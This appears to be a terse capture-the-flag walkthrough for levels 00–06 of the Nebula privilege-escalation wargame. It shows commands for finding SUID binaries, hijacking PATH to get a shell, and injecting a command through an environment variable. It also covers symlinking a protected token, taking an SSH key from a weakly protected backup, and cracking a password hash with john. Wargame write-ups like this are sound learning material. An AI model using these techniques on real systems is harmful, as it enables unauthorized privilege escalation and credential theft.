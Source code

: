 
# LEVEL00
```
find / -perm -4000 -print
```
and go to the flag

# LEVEL01 

```bash
level01@nebula:/home/flag01$ echo '/bin/bash' > /tmp/echo  
level01@nebula:/home/flag01$ chmod +x /tmp/echo  
level01@nebula:/home/flag01$ export PATH=/tmp:$PATH
level01@nebula:/home/flag01$ ./flag01    
flag01@nebula:/home/flag01$ getflag
```

# LEVEL02
```bash
level02@nebula:/home/flag02$ export USER="haha;getflag"
level02@nebula:/home/flag02$ ./flag02    
about to call system("/bin/echo haha;getflag is cool")  
haha  
You have successfully executed getflag on a target account
```
# LEVEL03
started a reverse shell then did getflag

# LEVEL04

created a soft link to the token via `level04@nebula:/tmp$ ln -s /home/flag04/token fksa`
then executed flag4 on it to get the password of the flag04 account.

# LEVEL05

did `ls -a` saw the .backup directory with weak permissions then dezipped the tar file and go the ssh private key --> `ssh -i id_rsa flag05@localhost`

# LEVEL06
got the hash in /etc/passwd and used `john` on the flag06 password to find `hello`

# LEVEL07
